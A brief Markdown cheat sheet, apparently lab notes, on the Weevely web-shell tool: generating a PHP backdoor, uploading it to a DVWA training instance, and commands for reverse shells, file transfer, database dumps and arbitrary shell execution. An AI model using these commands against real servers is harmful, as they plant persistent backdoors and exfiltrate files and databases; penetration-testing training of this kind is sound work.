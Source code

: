 # Weevely

## Usage
1. Genrate backdoor in Kali
   - ```weevely generate [password] [file name]```
   -  ```weevely generate 123456 /root/shell.php```
2. Upload in vulnerable app (DVWA-Low)
3. Send a request to uploaded php file (run it)
   - *http://192.168.152.132/dvwa/hackable/uploads/shell.php*
4. Connect to shell from Kali
   - ```weevely [url o file] [password]```
   -  ```weevely http://192.168.152.132/dvwa/hackable/uploads/shell.php```

## Weevely commands
- List weevely functions
  - ```help```
- Help of a specific function 
  - ```[function name] -h```   
- Run weevely functions
  - ```[function name]```
- Download
  - ```file_download -vector [VECTOR] [FileName] -host [HOST] [location to store file]```
- Upload
  - ```file_upload -vector [VECTOR] [location on local machine] [location to store file]```
- Reverse shell
  - ```backdoor_reversetcp -vector [VECTOR] [Your IP] [PORT]```
- Access database
  - ```sql_console```
  - ```sql_dump -vector [VECTOR] -host [HOST] -lpath [location to store data] [DB Name] [username] [password]```
- Other functions
  - ```whoami``` 
  - ``` shell_sh [command]```
  - ```shell_sh -v [vector] [command]```
